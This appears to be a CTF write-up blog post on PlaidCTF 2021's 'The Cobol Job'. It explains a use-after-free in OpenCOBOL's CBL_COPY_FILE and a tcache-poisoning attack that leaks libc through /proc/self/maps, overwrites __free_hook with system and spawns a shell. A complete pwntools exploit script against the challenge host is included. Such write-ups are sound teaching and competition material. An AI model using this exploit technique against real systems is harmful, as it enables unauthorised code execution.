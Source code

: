 ```yaml
---
layout: post
title: PlaidCTF 2021 - The Cobol Job
---
```

Even though I was going through some post-quarter-end burnout, I managed to join DiceGang for a bit during PlaidCTF 2021. We ended up getting 2nd, 1 place short of pre-qualifying for DEFCONCTF 2021 Finals :(

## The Cobol Job
We are given a cobol file:
```
-----------------------
1 - Create file
2 - Open file
3 - Read file
4 - Write file
5 - Close file
6 - Copy file
7 - Exit
>
```

We can leak all the addresses including the base of libc by copying `/proc/self/maps` to a file we create, and then reading it.

<!-- more -->

I spent a long time learning too much cobol than anyone ever should to look for arbitrary writes.
Basically, the sizes, file descriptors, and heap pointers to a file's contents are stored in arrays. Ultimately nothing in the implementation would lead to a heap memory corruption.

However, a bug exists in the open cobol implementation of [`CBL_COPY_FILE`](https://github.com/ayumin/open-cobol/blob/72578e8fe3f13257ae5fb2b306aed112fbf7c3c4/libcob/fileio.c#L4751-L4768), which is used in the copy file function. My teammate panda found this but his internet cut out so I implemented it.

`fn1` is freed, and then written to shortly after. `fn1` just happens to be a 0x20 sized tcache chunk. Because this is Ubuntu 18.04, there is no pointer mangling so poisoning the tcache is very easy.

Using our libc leak from prior, simply copy a file whose content is the address of `__free_hook` into a dummy file whose size will fit into tcache idx 0, such as 0x18.

Create two more 0x18-sized files to set up the write into `__free_hook`. I wrote `/bin/sh` to one of these files because I planned to free them to get a shell later on.

Allocate one more 0x18-sized file. This file's buffer is pointing to `__free_hook`. Write the address of `system` to it.
- The write function first reads our input onto the heap, then writes the input from the heap into the file. So, `__free_hook` is now pointing to `system`.

From there we close a file whose content is `/bin/sh` to trigger the `__free_hook`, getting us a shell.

```python
from pwn import *

e = ELF("./chall")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

p = process([e.path])
p = remote("cobol.pwni.ng", 3083)
context.terminal = ['tmux', 'splitw', '-h']
context.log_level="debug"


p.sendlineafter(">", "6")
p.sendlineafter(":", "/proc/self/maps")
p.sendlineafter(":", "/tmp/leek")

p.sendlineafter(">", "2")
p.sendlineafter(":", "/tmp/leek")
p.sendlineafter(":", "1")
p.sendlineafter(":", "10000")

p.sendlineafter(">", "3")
p.sendlineafter(":", "1")

d = p.recvuntil("Exit").splitlines()


for i in d:
    if "libc" in i:
        libc.address = int(i[:12], 16)
        break


print("libc", hex(libc.address))
print("fh", hex(libc.sym["__free_hook"]))


p.sendlineafter(">", "1")
p.sendlineafter(":", "bruh")
p.sendlineafter(":", "2")
p.sendlineafter(":", "24")

p.sendlineafter(">", "4")
p.sendlineafter(":", "2")
p.sendafter(":", p64(libc.sym["__free_hook"])+"\xe8")
p.sendline()


p.sendlineafter(">", "6")
p.sendlineafter(":", "bruh")
p.sendlineafter(":", "/tmp/sice")


p.sendlineafter(">", "1")
p.sendlineafter(":", "bruhaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbb")
p.sendlineafter(":", "3")
p.sendlineafter(":", "24")

p.sendlineafter(">", "4")
p.sendlineafter(":", "3")
p.sendlineafter(":", "/bin/sh")
p.sendline()


p.sendlineafter(">", "1")
p.sendlineafter(":", "bruhaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbb")
p.sendlineafter(":", "5")
p.sendlineafter(":", "24")


p.sendlineafter(">", "1")
p.sendlineafter(":", "bruhaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbb")
p.sendlineafter(":", "4")
p.sendlineafter(":", "24")

p.sendlineafter(">", "4")
p.sendlineafter(":", "4")
p.sendlineafter(":", p64(libc.sym["system"]))
p.sendline()


p.sendlineafter(">", "5")
p.sendlineafter(":", "3")
print("fh", hex(libc.sym["__free_hook"]))

gdb.attach(p)

p.interactive()
```

Flag: `PCTF{l3arning_n3w_languag3_sh0uld_start_with_g00d_bugs_99d4ec917d097f63107e}`
